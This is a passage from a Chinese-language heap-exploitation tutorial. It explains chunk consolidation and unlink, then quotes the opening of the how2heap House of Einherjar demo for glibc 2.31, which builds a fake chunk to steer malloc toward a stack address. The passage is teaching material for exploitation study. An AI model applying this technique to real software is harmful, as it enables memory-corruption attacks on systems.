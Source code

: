 先把前一个堆块的位置找到即p-p->prev\_inuse

修改P -> size为P -> size + FD -> size(以此来表示size大小上已经合并)

让FD进入unlink函数

### unlink操作

我们使用how2heap 中的House of einherjar来进行演示

demo如下：

```plain
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <malloc.h>
#include <assert.h>

int main()
{
    /*
     * This modification to The House of Enherjar, made by Huascar Tejeda - @htejeda, works with the tcache-option enabled on glibc-2.31.
     * The House of Einherjar uses an off-by-one overflow with a null byte to control the pointers returned by malloc().
     * It has the additional requirement of a heap leak. 
     * 
     * After filling the tcache list to bypass the restriction of consolidating with a fake chunk,
     * we target the unsorted bin (instead of the small bin) by creating the fake chunk in the heap.
     * The following restriction for normal bins won't allow us to create chunks bigger than the memory
     * allocated from the system in this arena:
     *
     * https://sourceware.org/git/?p=glibc.git;a=commit;f=malloc/malloc.c;h=b90ddd08f6dd688e651df9ee89ca3a69ff88cd0c */

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    printf("Welcome to House of Einherjar 2!\n");
    printf("Tested on Ubuntu 20.04 64bit (glibc-2.31).\n");
    printf("This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

    printf("This file demonstrates a tcache poisoning attack by tricking malloc into\n"
           "returning a pointer to an arbitrary location (in this case, the stack).\n");

    // prepare the target
    intptr_t stack_var[4];
    printf("\nThe address we want malloc() to return is %p.\n", (char *) &stack_var);

    printf("\nWe allocate 0x38 bytes for 'a' and use it to create a fake chunk\n");
    intptr_t *a = malloc(0x38);

    // create a fake chunk
    printf("\nWe create a fake chunk preferably before the chunk(s) we want to overlap, and we must know its address.\n");
    printf("We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");

    a[0] = 0;    // prev_size (Not Used)
    a[1] = 0x60; // size
    a[2] = (size_t) a; // fwd
    a[3] = (size_t) a; // bck
```